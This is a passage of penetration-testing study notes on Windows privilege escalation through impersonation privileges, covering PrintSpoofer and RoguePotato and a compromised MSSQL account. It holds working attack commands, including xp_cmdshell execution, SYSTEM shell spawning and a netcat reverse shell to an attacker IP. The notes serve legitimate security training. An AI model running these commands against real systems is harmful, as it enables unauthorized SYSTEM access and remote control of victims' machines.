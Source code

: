 **Parameters:**
- `-l` - COM server listening port
- `-p` - Program to launch  
- `-a` - Arguments passed to program
- `-t` - CreateProcess call type (* = try both)

### PrintSpoofer - Modern Systems

#### Advantages
- **Windows Server 2019** and **Windows 10 build 1809+** compatible
- **Print Spooler service** abuse mechanism
- **Multiple execution modes** available

#### Usage Examples
```cmd
# Interactive SYSTEM shell in current console
PrintSpoofer.exe -i -c cmd

# Desktop SYSTEM process (RDP sessions)
PrintSpoofer.exe -d -c cmd

# Reverse shell execution
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

### RoguePotato - Alternative Approach
- **OXID resolver** abuse technique
- **Named pipe** impersonation method
- **Server 2019** and **Windows 10** compatible

## 💻 Practical Exploitation Scenario

### SQL Server Service Account Compromise

#### Initial Access via MSSQL
```bash
# Connect with mssqlclient.py
mssqlclient.py sql_dev@10.129.43.30 -windows-auth

# Enable xp_cmdshell
SQL> enable_xp_cmdshell

# Verify service account context
SQL> xp_cmdshell whoami
# Output: nt service\mssql$sqlexpress01
```

#### Privilege Assessment
```cmd
SQL> xp_cmdshell whoami /priv

# Key privileges to identify:
SeAssignPrimaryTokenPrivilege # Replace process level token - Disabled
SeImpersonatePrivilege        # Impersonate client after authentication - Enabled
SeManageVolumePrivilege       # Perform volume maintenance tasks - Enabled
```
